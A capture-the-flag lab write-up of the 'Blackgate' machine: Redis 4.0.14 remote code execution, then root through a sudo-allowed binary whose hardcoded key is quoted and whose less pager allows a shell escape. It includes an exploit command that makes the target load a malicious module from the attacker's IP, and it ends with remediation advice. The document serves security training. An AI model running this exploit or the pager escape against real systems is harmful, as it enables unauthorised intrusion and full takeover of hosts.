# Blackgate (OffSec Proving Grounds) Writeup

## Enumeration
#### Nmap Scan Results
Only two ports are open on the target system, with SSH running on port 22 and Redis key-value store 4.0.14 running on port 6379.


A Google search leads to a public Remote Code Execution exploit affecting Redis versions 4.x and 5.x on [jas502n's GitHub](https://github.com/jas502n/Redis-RCE). The script provides both the `redis-rce.py` script and the required `exp_lin.so` shared object.

## Initial Access
The `redis-rce.py` script is executed with the following parameters.
```
python redis-rce.py -r 192.168.138.176 -p 6379 -L 192.168.45.165 -f exp_lin.so
```

This results in successful exploitation and access to the target as the user `prudence`.


The initial shell is very limited. A `Netcat` listener is set up on port 443 to upgrade the shell, and the following Bash reverse shell one-liner is executed. This causes the connection established by the `redis-rce.py` exploit to close, with the exploit reporting an error.



However, a connection is successfully received through the `Netcat` listener, establishing a more interactive shell.


The user flag is found on the `prudence` user's home directory

## Privilege Escalation
Enumeration of sudo permissions reveals that `prudence` can execute `/usr/local/bin/redis-status` as `root` without a password.


The binary requires an authorization key and reports an incident when an incorrect key is provided.


The authorization key is not found in the target's Redis configuration files. To check whether the key is hardcoded in the binary, `strings` is used, revealing the authorization key `ClimbingParrotKickingDonkey321`.


After providing the authorization key, `redis-status` displays its output through the `less` pager. Since the binary is executed as `root` through `sudo`, the pager runs with root privileges. This allows spawning a root shell directly from `less`.


Root flag is retrieved from `root`'s home directory

## Findings & Remediation

### Remote Code Execution in Redis
#### Description
The target runs Redis 4.0.14, which is vulnerable to a publicly available Remote Code Execution exploit. The exploit available on [jas502n's GitHub](https://github.com/jas502n/Redis-RCE) was used to execute commands on the target and obtain an initial shell as `prudence`.
#### Impact
An attacker can execute arbitrary commands on the target system with the privileges of the Redis service, potentially gaining an initial foothold on the host.
#### Remediation
Upgrade Redis to a supported version and restrict network access to the Redis service to trusted hosts only. Require authentication and apply appropriate access controls to prevent unauthorized clients from interacting with the service.
### Hardcoded Authorization Key
#### Description
The authorization key required by the `/usr/local/bin/redis-status` binary is hardcoded into the binary and can be extracted using the `strings` utility.
#### Impact
An attacker with access to the binary can retrieve the authorization key and bypass the application's intended authorization check.
#### Remediation
Remove hardcoded authorization keys from the binary and retrieve secrets from a secure configuration or secret-management mechanism. Rotate the exposed key and enforce access controls independently of client-side or locally stored secrets.

### Sudo Misconfiguration
#### Description
The `prudence` user can execute `/usr/local/bin/redis-status` as `root` without a password. The binary displays its output through the `less` pager, which runs with root privileges. This allows spawning `/bin/sh` from within `less` and obtaining a root shell.
#### Impact
An attacker with access to the `prudence` account can escalate privileges to `root`, resulting in full compromise of the target system.
#### Remediation
Remove the unnecessary `NOPASSWD` sudo permission or restrict it to a command that cannot be abused to execute arbitrary commands. Avoid using interactive pagers in privileged programs, or configure them to prevent shell escapes. Ensure that privileged utilities cannot be used to spawn unrestricted shells.
